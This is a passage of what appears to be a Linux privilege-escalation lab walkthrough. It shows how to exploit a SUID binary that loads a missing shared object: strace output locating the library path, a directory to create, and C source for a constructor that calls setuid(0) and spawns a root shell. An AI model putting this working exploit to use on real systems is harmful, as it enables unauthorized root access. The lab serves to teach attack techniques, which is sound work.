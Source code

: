 First, execute the file to observe its current behavior:

```bash
/usr/local/bin/suid-so
```

**Sample Output:**

```bash
Calculating something, please wait...
[=====================================================================>] 99 %
Done.
```

**Explanation:**  
The executable displays a progress bar, indicating that it performs some calculation or task before exiting. No apparent vulnerability is visible at this point.

### Step 2: Analyze with strace

To uncover the vulnerability, use `strace` to monitor the system calls made by the executable, particularly focusing on `open` and `access` system calls to identify any "No such file" errors:

```bash
strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"
```

**Sample Output:**

```bash
access("/home/user/.config/libcalc.so", F_OK) = -1 ENOENT (No such file or directory)
```

**Explanation:**  
The output indicates that the executable attempts to load the shared object `/home/user/.config/libcalc.so`, but the file is missing (`ENOENT`). This suggests that if we can place a malicious shared object at this location, it will be loaded and executed with the privileges of the SUID program.

### Step 3: Exploit the Vulnerability

**1. Create the Required Directory:**

Since the executable is looking for the shared object in the `.config` directory within the user's home directory, create this directory:

```bash
mkdir /home/user/.config
```

**2. Review and Compile the Malicious Shared Object:**

The exploit code is available at `/home/user/tools/suid/libcalc.c`. This code is designed to spawn a root shell when executed:

```bash
cat /home/user/tools/suid/libcalc.c
```

**Sample Code:**

```c
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() {
    setuid(0);
    system("/bin/bash -p");
}
```
